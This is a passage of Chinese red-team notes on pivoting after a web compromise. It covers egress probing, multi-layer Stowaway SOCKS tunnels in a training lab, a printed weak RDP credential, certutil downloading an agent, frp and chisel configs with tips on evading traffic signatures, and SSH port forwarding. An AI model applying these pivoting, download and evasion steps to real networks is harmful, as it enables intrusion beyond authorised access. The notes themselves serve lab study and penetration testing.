3.情况三

通过 Web 漏洞打下的是反向代理后面机器，通过反向代理连接，只能访问内网，不能访问互联网（不出网），只能走 HTTP 协议，那么可以尝试搭建 HTTP Tunnel（原理本地脚本开启 SOCKS，所有流量转发到 WebShell 后， WebShell 再使用 SOCKS 服务端将流量转发到内网），Red Team Operator -> Reverse Proxy -> Web App（HTTP Tunnel） -> Internal NetWork。

只访问某个端口可以用 Neo-reGeorg 搭建 HTTP 隧道做端口转发，很稳定。

以上情况只要能通信，代理正连反连都可以。

具体怎么探测可以使用下面方法：

1.DNS

使用 vps-ip 作为 DNS 服务器解析 www.baidu.com 域名，在服务器端只要监听 53 端口看能不能收到流量 `nc -u -lvp 53`。

```plaintext
dig @vps-ip www.baidu.com

nslookup www.baidu.com vps-ip
```

2.ICMP

vps-ip 抓 icmp 流量 `tcpdump icmp`。

```plaintext
ping vps-ip
```

PowerShell 中 [Test-NetConnection](https://learn.microsoft.com/en-us/powershell/module/nettcpip/test-netconnection?view=windowsserver2022-ps) 也可以。

```plaintext
PS C:\Users\gbb> # ICMP 测试
PS C:\Users\gbb> Test-NetConnection -ComputerName 13.107.4.52


ComputerName           : 13.107.4.52
RemoteAddress          : 13.107.4.52
InterfaceAlias         : WLAN
SourceAddress          : 172.20.10.2
PingSucceeded          : True
PingReplyDetails (RTT) : 186 ms
```

3.TCP

测试 TCP 连接可以用 PowerShell 中 [TcpClient](https://learn.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient?view=net-7.0)。第一个参数填 Host，第二个参数是端口。

```plaintext
PS E:\desktop> (New-Object System.Net.Sockets.TcpClient("www.raingray.com", "443")).Connected
True
```

或者上传 nc 到服务器上，反连 vps-ip 端口看能不能连接成功 `nc -lvp port`。

```plaintext
nc vps-ip port
```

4.HTTP

```plaintext
curl -I http://www.domain.com

wget -qSO /dev/null http://domain.com 

wget -qSO- http://www.domain.com
```

介绍隧道概念：传输隧道按层划分：应用层啊，传输层啊。HTTP，TCP，DNS，SSH，SOCKS，SOCKS5，ICMP。隧道原理是什么

根端口转发做出对比：什么时候选端口转发或隧道？它俩优劣势是什么。最好拿前面 SSH 动态端口转发小节做例子。

最后谈谈实战中拿下边界服务器内网横向渗透时多层代理如何玩儿，不同网段怎么通信，是使用正向还是反向。

大内网怎么扫主机：找网关，确认网段。ping 确定存活主机，如果机器之间禁 icmp 如何探测。

隧道特征：

-   http 隧道，新增文件
-   icmp 隧道数据大小比正常的大。
-   dns 隧道，与内部已有的 dns 主机不同，大量 dns 查询。

#### 3.1.1 SOCKS

客户端软件：

-   Windows：Proxifier
-   Linux：proxychanis

##### Stowaway

1.反向连接

服务端开启监听

```plaintext
.\windows_x64_admin.exe -s test -proxyp asdf -proxyu proxy -l 8888
```

客户端主动连接服务端

```plaintext
root@ubuntu:/home/web/Desktop# ./linux_x64_agent -c 172.20.10.2:8888 -s test 
```

要注意客户端连接服务端 8888 端口后，其他客户端无法再使用此端口。

2.正向连接

客户端开启监听

```plaintext
C:\>windows_x64_agent.exe -l 10000 -s test
```

服务端主动连接客户端

```plaintext
.\windows_x64_admin.exe -c 127.0.0.1:10000 -s test
```

3.多级代理连接

一般情况下第一层代理，很可能因为网络防火墙入站规则限制较严格，会使用反向链接。拿到一个连接后，会生成一个节点。

节点内正向连接，客户端开启监听

```plaintext
C:\>windows_x64_agent.exe -l 10000 -s test
```

进入节点主动连接客户端

```plaintext
(admin) >> use 0
(node 0) >> connect 192.168.52.30:10000
```

节点内反向连接，或者节点开启端口监听。

```plaintext
(node 1) >> listen
[*] BE AWARE! If you choose IPTables Reuse or SOReuse,you MUST CONFIRM that the node you're controlling was started in the corresponding way!
[*] When you choose IPTables Reuse or SOReuse, the node will use the initial config(when node started) to reuse port!
[*] Please choose the mode(1.Normal passive/2.IPTables Reuse/3.SOReuse): 1
[*] Please input the [ip:]<port> : 192.168.93.20:20001
[*] Waiting for response......
[*] Node is listening on 192.168.93.20:20001
(node 1) >>
[*] New node come! Node id is 2
```

客户端连接到节点。

```plaintext
C:\>windows_x64_agent.exe -c 192.168.93.20:20001 -s test
```

Stowaway 缺点：实战环境中拿下目标机器后，想用它做服务端，可惜没有 screen、tmux 这种终端管理工具的情况下不能在后台运行，很不方便。

这里使用[【启元】ATT&CK红队七WHOAMI Penetration](http://vulnstack.qiyuanxuetang.net/vuln/detail/9/)进行多层代理专项训练。



由于 DMZ 主机 IP1 是桥接宿主机，IP 根据每台机器 DHCP 动态获取会有不同，以实际为准。

*建立第一层隧道*

拿下 DMZ 区域 Ubuntu 主机，Shell 地址 [http://172.20.10.3:81/backdoor.php，它的](http://172.20.10.3:81/backdoor.php%EF%BC%8C%E5%AE%83%E7%9A%84) Web 应用流量是反向代理到内网第二层网络，并且还是多网卡机器，因此能够访问第二层网络。

VPS 服务端开启 Socks 监听 8888，等待连接。-s 使用加密密钥 test 传输数据。

```plaintext
PS E:\Desktop\Stowaway> .\windows_x64_admin.exe -s test -proxyp asdf -proxyu proxy -l 8888
[*] Starting admin node on port 8888

    .-')    .-') _                  ('\ .-') /'  ('-.      ('\ .-') /'  ('-.
   ( OO ). (  OO) )                  '.( OO ),' ( OO ).-.   '.( OO ),' ( OO ).-.
   (_)---\_)/     '._  .-'),-----. ,--./  .--.   / . --. /,--./  .--.   / . --. /  ,--.   ,--.
   /    _ | |'--...__)( OO'  .-.  '|      |  |   | \-.  \ |      |  |   | \-.  \    \  '.'  /
   \  :' '. '--.  .--'/   |  | |  ||  |   |  |,.-'-'  |  ||  |   |  |,.-'-'  |  | .-')     /
    '..'''.)   |  |   \_) |  |\|  ||  |.'.|  |_)\| |_.'  ||  |.'.|  |_)\| |_.'  |(OO  \   /
   .-._)   \   |  |     \ |  | |  ||         |   |  .-.  ||         |   |  .-.  | |   /  /\_
   \       /   |  |      ''  '-'  '|   ,'.   |   |  | |  ||   ,'.   |   |  | |  | '-./  /.__)
    '-----'    '--'        '-----' '--'   '--'   '--' '--''--'   '--'   '--' '--'   '--'
                                    { v2.1  Author:ph4ntom }
[*] Waiting for new connection...
```

上传 agent，-c 反连 VPS 172.20.10.2:8888，--reconnect 断线后 10 重连一次。

```plaintext
root@ubuntu:/home/web/# ./linux_x64_agent -c 172.20.10.2:8888 -s test 
2023/03/13 00:54:48 [*] Starting agent node actively.Connecting to 172.20.10.2:8888
```

agent 与 VPS admin 端连接成功。

```plaintext
PS E:\Desktop\Stowaway> .\windows_x64_admin.exe -s test -l 8888
[*] Starting admin node on port 8888

    .-')    .-') _                  ('\ .-') /'  ('-.      ('\ .-') /'  ('-.
   ( OO ). (  OO) )                  '.( OO ),' ( OO ).-.   '.( OO ),' ( OO ).-.
   (_)---\_)/     '._  .-'),-----. ,--./  .--.   / . --. /,--./  .--.   / . --. /  ,--.   ,--.
   /    _ | |'--...__)( OO'  .-.  '|      |  |   | \-.  \ |      |  |   | \-.  \    \  '.'  /
   \  :' '. '--.  .--'/   |  | |  ||  |   |  |,.-'-'  |  ||  |   |  |,.-'-'  |  | .-')     /
    '..'''.)   |  |   \_) |  |\|  ||  |.'.|  |_)\| |_.'  ||  |.'.|  |_)\| |_.'  |(OO  \   /
   .-._)   \   |  |     \ |  | |  ||         |   |  .-.  ||         |   |  .-.  | |   /  /\_
   \       /   |  |      ''  '-'  '|   ,'.   |   |  | |  ||   ,'.   |   |  | |  | '-./  /.__)
    '-----'    '--'        '-----' '--'   '--'   '--' '--''--'   '--'   '--' '--'   '--'
                                    { v2.1  Author:ph4ntom }
[*] Waiting for new connection...
[*] Connection from node 172.20.10.3:58946 is set up successfully! Node id is 0
(admin) >> detail
Node[0] -> IP: 172.20.10.3:58946  Hostname: ubuntu  User: root
Memo:

(admin) >> 
```

给 node 0 做个注释信息，方便其他同事了解此节点信息。

```plaintext
(node 0) >> addmemo  "DMZ 边界机"
[*] Memo added!
(node 0) >> back
(admin) >> detail
Node[0] -> IP: 172.20.10.3:58946  Hostname: ubuntu  User: root
Memo:   "DMZ 边界机"

(admin) >> 
```

进入节点，在 VPS 端开启 Socks 端口，用户名 proxy，密码 proxys。后续 VPS 通过此端口就可以连到 node 0（DMZ 区）网络。

```plaintext
(admin) >> use 0
(node 0) >> socks 9000 proxy proxys
[*] Trying to listen on 0.0.0.0:9000......
[*] Waiting for agent's response......
[*] Socks start successfully!
```

VPS 确实开启 9000，由 admin 端开启的端口。

```plaintext
PS C:\Users\gbb> netstat -ano -p tcp | findstr 9000
  TCP    0.0.0.0:9000           0.0.0.0:0              LISTENING       22064
PS C:\Users\gbb> tasklist | findstr 22064
windows_x64_admin.exe        22064 Console                    1     11,692 K
```

Proxyfier 设置代理服务器，成功连接。



Profile -> Proxyification Rules -> Add 添加规则，允许 edge 浏览器访问走代理。



通过扫描发现第二层网络内网 OA。


此时访问 OA 整个流量走向是：

```plaintext
Computer(操作员笔记本) -> VPS Socks5(0.0.0.0:9000) -> VPS admin 端(0.0.0.0:8888) -> DMZ(172.20.10.3:<randomPort>)
```

*建立第二层隧道*

通过 DMZ 拿下第二层网络通达 OA Shell。

systeminfo 确认类型为 64，上传 64 agent。

由于没有防火墙限制，这回不再像第一层代理 DMZ 主机一样去反连接，尝试选择 agent 自己开放端口 0.0.0.0:10000，让 DMZ 主动连接（正向连接）。

```plaintext
C:\>./windows_x64_agent -l 10000 -s test
2023/03/13 16:25:54 [*] Starting agent node passively.Now listening on port 10000
```

DMZ 主机成功连接 OA 服务器，自动取名 Node 1 成为 Node 0 子节点。

```plaintext
(node 0) >> connect 192.168.52.30:10000
[*] Waiting for response......
[*] New node come! Node id is 1

(node 0) >> back
(admin) >> topo
Node[0]'s children ->
Node[1]

Node[1]'s children ->

(admin) >> detail
Node[0] -> IP: 172.20.10.3:58954  Hostname: ubuntu  User: root
Memo:   "DMZ 边界机"

Node[1] -> IP: 192.168.52.30:10000  Hostname: PC1  User: whoamianony\bunny
Memo:

(admin) >>
```

继续做备注方便后续回顾。

```plaintext
(admin) >> use 1
(node 1) >> addmemo "通达 OA"
[*] Memo added!
(node 1) >> back
(admin) >> detail
Node[0] -> IP: 172.20.10.3:58954  Hostname: ubuntu  User: root
Memo:   "DMZ 边界机"

Node[1] -> IP: 192.168.52.30:10000  Hostname: PC1  User: whoamianony\bunny
Memo:  "通达 OA"

(admin) >>
```

继续在 VPS 开启 Socks 端口 9001，方便通过 VPS 连接到 OA 网络内。

```plaintext
(node 1) >> socks 9001 proxy proxys
[*] Trying to listen on 0.0.0.0:9001......
[*] Waiting for agent's response......
[*] Socks start successfully!
(node 1) >>
```

现在访问 9001 流量走向是：

```plaintext
Computer(操作员笔记本) -> VPS Socks5(0.0.0.0:9001) -> VPS Admin 端(0.0.0.0:8888) -> DMZ(172.20.10.3:<randomPort>) -> 第二层网络-通达 OA(192.168.52.30:10000)
```

*建立第三层隧道*

通过搜集信息发现，第二层网络-通达 OA 也是双网卡机器，能通信第三层网络。通过扫描第三层网络主机，发现域内单机 192.168.93.40 开放 RDP，使用弱口令成功登录。

```plaintext
WHOAMIANONY\moretz
Moretz2021
```



经过测试不出网，选择将 agent 放在第二层网络-通达 OA 服务器上访问去下载。

```plaintext
certutil -urlcache -split -f http://192.168.52.30:8080/windows_x64_agent.exe
```



在节点 Note 1（通达 OA）上开启监听端口 192.168.93.20:20001。

```plaintext
(node 1) >> listen
[*] BE AWARE! If you choose IPTables Reuse or SOReuse,you MUST CONFIRM that the node you're controlling was started in the corresponding way!
[*] When you choose IPTables Reuse or SOReuse, the node will use the initial config(when node started) to reuse port!
[*] Please choose the mode(1.Normal passive/2.IPTables Reuse/3.SOReuse): 1
[*] Please input the [ip:]<port> : 192.168.93.20:20001
[*] Waiting for response......
[*] Node is listening on 192.168.93.20:20001
(node 1) >> 
```

域内单机反向连接到 Note 1（第二层网络-通达 OA）。

```plaintext
C:\Users\moretz.WHOAMIANONY\Desktop>windows_x64_agent.exe -c 192.168.93.20:20001 -s test
2023/03/13 18:21:18 [*] Starting agent node actively.Connecting to 192.168.93.20:20001
```

OA 节点主动显示新节点 Note 2 连接，成为 Note 1 子节点。

```plaintext
(node 1) >>
[*] New node come! Node id is 2
(node 1) >> back
(node 2) >> addmemo "域内单机"
[*] Memo added!
(admin) >> detail
Node[0] -> IP: 172.20.10.3:58954  Hostname: ubuntu  User: root
Memo:   "DMZ 边界机"

Node[1] -> IP: 192.168.52.30:10000  Hostname: PC1  User: whoamianony\bunny
Memo:  "通达 OA"

Node[2] -> IP: 192.168.93.40:4435  Hostname: PC2  User: whoamianony\moretz
Memo:  "域内单机"

(admin) >> topo
Node[0]'s children ->
Node[1]

Node[1]'s children ->
Node[2]

Node[2]'s children ->

(admin) >>
```

在 Socks 开启端口，直通第三层网络。

```plaintext
(admin) >> use 2
(node 2) >> socks 9002 proxy proxys
[*] Trying to listen on 0.0.0.0:9002......
[*] Waiting for agent's response......
[*] Socks start successfully!
```

现在访问 9002 流量走向是：

```plaintext
Computer(操作员笔记本) -> VPS Socks5(0.0.0.0:9002) -> VPS Admin 端(0.0.0.0:8888) -> DMZ(172.20.10.3:<randomPort>) -> 通达 OA(192.168.52.30:20001) -> 域内单机（192.168.93.40:<randomPort>）
```

##### rakshasa

[https://github.com/Mob2003/rakshasa](https://github.com/Mob2003/rakshasa)

##### venom

[https://github.com/Dliv3/Venom](https://github.com/Dliv3/Venom)

##### frp

目标通网，可以使用 frp 连到内网。

frps.ini

```plaintext
[common]
bind_addr = 0.0.0.0
bind_port = 7000
kcp_bind_port = 7000
token = 18xujk38
tcp_mux = true
log_file = ./frps.log
log_level = info
log_max_days = 3
```

frpc.ini

```plaintext
[common]
server_addr = 106.2.120.110
server_port = 7000
protocol = kcp
token = 18xujk38

[plugin_socks5]
type = tcp
local_port = 8084
remote_port = 29017
plugin = socks5
use_encryption = true
use_compression = true
```

frp 内网穿透，配合 vps 使用，效果还不错。在反弹 Shell 时一直有个问题，在没有公网 vps 中转流量如何反弹 Shell 到本机？

拿到管理员权限后可以用 Proxifer 来代理本机软件，通过 frp 开 socket 连接到目标内网。

最好将 FRP 流量特征改掉，启用 TLS，将配置硬编码到程序里，其他只留部分作为命令行参数，比如 ip 端口。

##### chisel

VPS 监听端口

```plaintext
chisel server -p <Port> --reverse
```

客户端连接

```plaintext
chisel client <VPS-IP>:<Port> R:socks
```

##### nps

#### 3.1.2 VPN

使用目标自带的 VPN 会更加隐蔽。

PPTP  
OpenVPN  
IPSEC

#### 3.1.3 HTTP

###### Neo-reGeorg

#### 3.1.4 WebSocket

#### 3.1.5 ICMP

icmptunnel

#### 3.1.6 DNS

Chashell

#### 3.1.7 SSH

借由 SSH 学习端口转发概念，后面其他工具只是使用方式不同，原理类似。

##### 本地端口转发

本地端口转发能够解决的问题是，想要访问远程机器本地监听（不对外开放）的某个服务，或者是要访问远程机器内网其他主机的服务，以后只要访问本地端口就能访问到对应远程机器服务。

就可以用 SSH 在本地开启监听端口并指定一个你要访问的 IP:Port，，登录到远程机器，

使用 SSH 将本地 8888 端口流量通过 root@www.raingray.com 主机转发到 www.raingray.com:443。要注意的是做转发的机器（root@www.raingray.com）一定能与目标机器通信（www.raingray.com:443）才能成功。

```plaintext
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh -N -L 8888:www.raingray.com:443 root@www.raingray.com
root@www.raingray.com's password: 
```

\-L 选项是本地端口转发核心选项，语法是 `-L [bind_address:]port:host:hostport`，不加 bind\_address 默认是监听 127.0.0.1。-N 是不使用 Shell 就不给，不加上就会把 SSH 登录后的 Shell 展示出来方便你执行命令用。还有个选项是 -f，在命令中没使用到，它的作用是把连接放到后台运行避免前台占着无法使用 Shell 输入命令。

本机已经建立 SSH 链接。

```plaintext
┌──(kali㉿kali)-[~/Desktop]
└─$ ss -napt4
State   Recv-Q  Send-Q    Local Address:Port   Peer Address:Port  Process                       
LISTEN  0       128           127.0.0.1:8888        0.0.0.0:*      users:(("ssh",pid=6694,fd=5))
ESTAB   0       0       192.168.136.129:58576  81.70.14.219:22     users:(("ssh",pid=6694,fd=3))
```

服务器上也有对应链接。

```plaintext
[root@VM-24-2-centos ~]# ss -pant | grep ssh
LISTEN 0  128     0.0.0.0:22          0.0.0.0:*     users:(("sshd",pid=2200733,fd=4))
ESTAB  0  0     10.0.24.2:22  111.194.220.217:7369  users:(("sshd",pid=1332042,fd=5),("sshd",pid=1332028,fd=5))
LISTEN 0  128        [::]:22             [::]:*     users:(("sshd",pid=2200733,fd=5))
```

请求本地 127.0.0.1:8888，发现本地端口流量转发到 www.raingray.com 内。

```plaintext
┌──(kali㉿kali)-[~/Desktop]
└─$ curl https://127.0.0.1:8888 --insecure -s | egrep "<title>.*</title>"
    <title>raingray Blog</title>
```

##### 远程端口转发

假设主机上 127.0.0.1:9999 开启 Web 服务器，想在在公网服务器上访问此服务，这就可以用上远程端口转发，将 127.0.0.1:9999 转发到远程公网服务器上某个端口上。



在本机使用 SSH 连接到 root@www.raingray.com 主机上，使用 -R 选项启用远程转发，将本机 127.0.0.1:9999 端口转发到目标机 www.raingray.com 的 8080 端口上（无需担心这个 8080 端口没开启，SSH 自动开启监听）。

```plaintext
ssh -N -R 8080:127.0.0.1:9999 root@www.raingray.com
```

登到目标机 www.raingray.com 可以看到 127.0.0.1:8080 监听端口。

```plaintext
[root@VM-24-2-centos ~]# ss -pant | grep 8080
LISTEN    0    128    127.0.0.1:8080    0.0.0.0:*     users:(("sshd",pid=1367194,fd=14))
LISTEN    0    128        [::1]:8080       [::]:*     users:(("sshd",pid=1367194,fd=13))
```

在目标机内访问 127.0.0.1:8080，流量成功转发到本机 127.0.0.1:9999 Web 服务器。

```plaintext
[root@VM-24-2-centos ~]# curl -s -v 127.0.0.1:8080
* Rebuilt URL to: 127.0.0.1:8080/
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8080 (#0)
> GET / HTTP/1.1
> Host: 127.0.0.1:8080
> User-Agent: curl/7.61.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< Host: 127.0.0.1:8080
< Date: Fri, 17 Feb 2023 15:37:36 GMT
< Connection: close
< X-Powered-By: PHP/8.1.12
< Content-type: text/html; charset=UTF-8
< 
test
* Closing connection 0
```

不知道你有没关注到目标机 www.raingray.com 的 8080 端口监听地址是 127.0.0.1，这是因为目标机 SSH 配置文件中 GatewayPorts 的取值。

```plaintext
GatewayPorts no
```

当它为默认值 no 时远程转发就监听 127.0.0.1，取值 yes 则监听 0.0.0.0。这个选项的作用就是让不让别人在公网访问此端口。

GatewayPorts 还有另一个取值是 clientspecified，可以自行指定要监听的 IP。

```plaintext
ssh -N -R 10.0.24.2:8080:127.0.0.1:9999 root@www.raingray.com
```

比如这里就主动指定监听地址为内网网卡 10.0.24.2，只能在内网里各个机器之间访问，相比 0.0.0.0 暴露在公网会安全不少。

##### 动态端口转发

本地和远程端口转发，都是端口只能一对一，如想访问其他端口就得再次映射，动态端口解决了此问题，只需与目标机器建立 SSH 就能以此机器网络身份访问本机及其内网其他机器，它原理是在本机开启 Socks 服务端口，在通过 SSH 连接到目标机建立隧道。

```plaintext
ssh -N -D 0.0.0.0:7890 root@www.raingray.com
```

\-D 开启动态转发，通过在本机建立个 Socks 服务（可以支持 4 和 5 版本，开启服务时具体 SSH 选择哪一个无法确认） 0.0.0.0:7890（需要注意 bind\_address 留空则默认是监听到 0.0.0.0），SSH 连接到 root@www.raingray.com 后将所有本地 Socks流量转入其中。

通过查看端口 7890 监听成功。

```plaintext
State  Recv-Q  Send-Q   Local Address:Port   Peer Address:Port Process                          
LISTEN 0       4096           0.0.0.0:9999        0.0.0.0:*     users:(("php",pid=236011,fd=4)) 
LISTEN 0       128            0.0.0.0:7890        0.0.0.0:*     users:(("ssh",pid=238772,fd=4)) 
```

尝试使用 Nmap 对目标网络进行扫描。

```plaintext
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo proxychains nmap --open -sV -sT -n -Pn  127.0.0.1    
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-17 22:28 EST
[proxychains] Strict chain  ...  0.0.0.0:7890  ...  127.0.0.1:15660 <--socket error or timeout!
[proxychains] Strict chain  ...  0.0.0.0:7890  ...  127.0.0.1:8290 <--socket error or timeout!
......
[proxychains] Strict chain  ...  0.0.0.0:7890  ...  127.0.0.1:80  ...  OK
[proxychains] Strict chain  ...  0.0.0.0:7890  ...  127.0.0.1:80  ...  OK
[proxychains] Strict chain  ...  0.0.0.0:7890  ...  127.0.0.1:443  ...  OK
Nmap scan report for 127.0.0.1
Host is up (0.0086s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.0 (protocol 2.0)
80/tcp   open  http        nginx
443/tcp  open  ssl/http    nginx
3306/tcp open  mysql       MySQL 5.5.5-10.6.7-MariaDB
8088/tcp open  radan-http
9000/tcp open  cslistener?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
......
SF:,POST\r\n\r\n");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 144.04 seconds
```

Socks 协议是不支持 ICMP、ARP、TCP SYN

> SOCKS works on layer 5 as we mentioned so don't expect things like ping, arp or the half-open reset that SYN scan does in Nmap, to work!
> 
> [https://erev0s.com/blog/ssh-local-remote-and-dynamic-port-forwarding-explain-it-i-am-five/#:~:text=SOCKS%20works%20on%20layer%205%20as%20we%20mentioned%20so%20don%27t%20expect%20things%20like%20ping%2C%20arp%20or%20the%20half%2Dopen%20reset%20that%20SYN%20scan%20does%20in%20Nmap%2C%20to%20work](https://erev0s.com/blog/ssh-local-remote-and-dynamic-port-forwarding-explain-it-i-am-five/#:~:text=SOCKS%20works%20on%20layer%205%20as%20we%20mentioned%20so%20don%27t%20expect%20things%20like%20ping%2C%20arp%20or%20the%20half%2Dopen%20reset%20that%20SYN%20scan%20does%20in%20Nmap%2C%20to%20work)!

你也可以用通过目标机器网络去利用内网其他机器。这里仅仅 curl 验证下请求是目标机器发送的。

```plaintext
──(kali㉿kali)-[~/Desktop]
└─$ sudo proxychains curl -s http://myip.ipip.net/
[sudo] password for kali: 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
